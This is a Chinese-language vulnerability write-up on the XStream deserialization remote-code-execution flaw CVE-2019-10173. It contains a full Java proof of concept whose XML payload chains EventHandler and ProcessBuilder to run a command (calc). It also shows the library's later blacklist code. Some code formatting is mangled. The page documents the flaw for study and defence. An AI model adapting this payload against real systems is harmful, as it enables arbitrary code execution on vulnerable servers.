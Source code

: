```yaml
---
title: "（CVE-2019-10173）Xstream 远程代码执行漏洞"
id: zhfly3286
---
```


# （CVE-2019-10173）Xstream 远程代码执行漏洞

## 一、漏洞简介

Xstream 1.4.10版本存在反序列化漏洞CVE-2013-7285补丁绕过。

## 二、漏洞影响

XStream <= 1.4.6

XStream = 1.4.10

## 三、复现过程

### poc

```
package com.bigo;

import com.thoughtworks.xstream.XStream;

import java.beans.EventHandler;

import java.io.IOException;

import java.util.Set;

import java.util.TreeSet;

/**

*   Created by cfchi on 2019/7/26.

    */

    public class Main {

    public static String expGen(){

    XStream xstream = new XStream();

    Set<Comparable> set = new TreeSet<Comparable>();

    set.add(“foo”);

    set.add(EventHandler.create(Comparable.class, new ProcessBuilder(“calc”), “start”));

    String payload = xstream.toXML(set);

    System.out.println(payload);

    return payload;

    }

    public static void main(String[] args) throws IOException {

    expGen();

    XStream xStream = new XStream();

    String payload = “<sorted-set>\n” +

    "    <string>foo</string>\n" +

    "    <dynamic-proxy>\n" +

    "    <interface>java.lang.Comparable</interface>\n" +

    "        <handler class=“java.beans.EventHandler”>\n" +

    "            <target class=“java.lang.ProcessBuilder”>\n" +

    "                <command>\n" +

    "                    <string>cmd.exe</string>\n" +

    "                    <string>/c</string>\n" +

    "                    <string>calc</string>\n" +

    "                </command>\n" +

    "            </target>\n" +

    "     <action>start</action>"+

    "        </handler>\n" +

    "    </dynamic-proxy>\n" +

    “</sorted-set>\n”;

    xStream.fromXML(payload);

    }

    } 
```

### 1.4.7版本白名单

![image](../img/87ce7d153d489d43d499fc9a8f100e07.png)

### 1.4.10版本，黑名单未开启

![image](../img/6140e2f2a630e0354e98b97c2f0f80c8.png)

### 1.4.11版本，黑名单开启

#### 黑名单

```
private class InternalBlackList implements Converter {
    private InternalBlackList() {
    }

```
public boolean canConvert(Class type) {
    return type == Void.TYPE || type == Void.class || !XStream.this.securityInitialized &amp;&amp; type != null &amp;&amp; (type.getName().equals("java.beans.EventHandler") || type.getName().endsWith("$LazyIterator") || type.getName().startsWith("javax.crypto."));
}

public void marshal(Object source, HierarchicalStreamWriter writer, MarshallingContext context) {
    throw new ConversionException("Security alert. Marshalling rejected.");
}

public Object unmarshal(HierarchicalStreamReader reader, UnmarshallingContext context) {
    throw new ConversionException("Security alert. Unmarshalling rejected.");
} 
``` `}` 
```

![image](../img/63904bf8ee8bba9301827b25a3c83195.png)

## 参考链接

> http://www.polaris-lab.com/index.php/archives/658/